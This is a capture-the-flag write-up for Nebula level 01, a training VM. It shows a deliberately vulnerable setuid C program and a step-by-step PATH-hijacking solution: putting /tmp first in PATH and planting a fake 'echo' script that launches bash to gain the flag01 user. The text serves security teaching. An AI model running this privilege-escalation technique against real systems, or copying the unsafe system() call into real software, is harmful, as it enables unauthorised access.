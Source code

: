 # Nebula - Level 01

## Info

Login: 		level01/level01

Topic:		Set User / Group ID Bits.  

##Description

The Code below allows arbitrary programs to execute it find it!

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}

```

## Ideas

The program is caling echo. If I can manage to change the Environment variable to get it runnig a shell. That would be great. The line `system("/usr/bin/env echo and now what?")` is of interest. `echo` is beeing called. `and now what` are parameters for `echo` . 

## Solution

Change the environment variable `PATH`. Add a directory where you can write to. In this case `tmp`

```bash
PATH=/tmp:$PATH
```

To get it known by the system you have to export it:

```bash
export PATH
```

Now If we type a comand name into commandline. The shell will also look in the directory `/tmp`. It is the first directory in the PATH variable and so it's the first place where the shell will look for programs. Now we can place a little shell script there to get executed. We name it `echo` . 

`echo -e '#!/bin/bash\n/tmp/echo2' > /tmp/echo`

This Script will call a shell to open up. So we also need a  shell to get opened. Make a symbolic ink to a shell. In this case Bash. We name it `echo2` because we call it with our script.

`ln -s /bin/bash /tmp/echo2`

Now it is important to make the Script executable. Without this modification it would not get found as a executable program via the `PATH`-variable. 

`chmod 755 /tmp/echo`

Now we can run `./flag01` and become the user `flag01`. Now we call `getflag` and the flag is ours.

